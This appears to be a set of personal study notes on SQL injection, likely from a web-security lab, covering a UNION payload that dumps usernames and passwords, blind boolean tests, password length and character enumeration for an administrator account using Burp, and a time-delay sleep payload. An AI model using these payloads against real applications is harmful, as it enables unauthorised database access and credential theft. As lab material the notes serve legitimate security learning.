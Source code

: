 ```Output_the_Usernames_and_Passwords
' UNION select USERNAME_LDANZP, PASSWORD_DYZWEQ from USERS_JYPOMG--
```

-------------------------------------------------------------
-------------------------------------------------------------

### 11. Blind SQL: With `conditional responses`
+ Use **BURP REPEATER**
+ Cookie have value: `trackingId = 'RvLfBu6s9EZRlVYN'`

- - - - - - - - - - - - - - - - -

**True / False SQL Injection**
`' and 1=1--`
`' and 1=0--`

- - - - - - - - - - - - - - - - -

**Confirm that we have a users table**
[Final Payload]: ' and (select 'x' from users LIMIT 1)='x'--
+ If `users table` _doesn't exist_, you _won't get a success_
+ If `users table` _DOES exist_, you will see `x` in the _output_
+ If there **IS** a `users` table, 
 - output `x` for _each entry in user's table_
+ Use `LIMIT 1` so it doesn't destroy your query

+ Probable Back-End Query:
`select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'`

- - - - - - - - - - - - - - - - -

**Confirm that username administartor exists in users table**
[Final Payload]: ' and (select username from users where username='administrator')='administrator'--
+ Will output `administrator` is this _query is true_
 - If _no output_, then `administrator` _does not exist_

+ Probable Back-End Query:
`select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'`

- - - - - - - - - - - - - - - - -

**Enumerate the password of the admin user**
```Enumerate_Length
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>1)='administrator'--'

  ... Keep prodding (50, 30, 20, 19, etc.) until ...
  
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'
```
+ Use `LENGTH`
+ Use **BURP INTRUDER** for the _numeric value_ being enumerated
+ You can use **BURP INTRUDER** to probe number after `LENGTH(password)>`

```Enumerate_Characters
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,2,1) from users where username='administrator')='a'--'
  ...
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,2,1) from users where username='administrator')='z'--'
 ...
In theory you can do this for each caracter
```


[This one worked]: ' || (SELECT sleep(10))--